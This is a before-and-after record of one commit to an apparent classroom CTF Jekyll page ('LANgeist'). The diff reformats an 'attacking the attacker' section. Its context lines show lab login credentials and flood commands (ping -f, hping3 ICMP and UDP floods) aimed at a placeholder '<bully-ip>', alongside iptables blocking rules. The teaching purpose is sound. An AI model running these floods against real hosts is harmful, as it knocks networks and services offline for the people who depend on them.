

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/LANgeist/LANgeist.md, in a window 1280 px wide and 900 px high, scrolled down 15234 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update LANgeist.md

```diff
--- a/classes/LANgeist/LANgeist.md
+++ b/classes/LANgeist/LANgeist.md
@@ -362,7 +362,10 @@ Username: agent
 Password: agent
 What IP address is pinging Target6?
 
-**Attacking the attacker**
+---
+
+# attacking the attacker
+
 ICMP (ping flood)	Overloads bully’s ICMP traffic
 #### `ping -f -s 65507 <bully-ip>`
 #### `hping3 --flood --icmp <bully-ip>`
@@ -374,8 +377,6 @@ TCP RST attack: Closes TCP connections on specific ports
 UDP attack: Overload and Block
 #### `hping3 --flood --udp -p <port#> <bully-ip>`
 #### `iptables -A INPUT -p udp --sport <port#> -s <bully-ip> -j DROP`
-
-
 
 
 ---
```
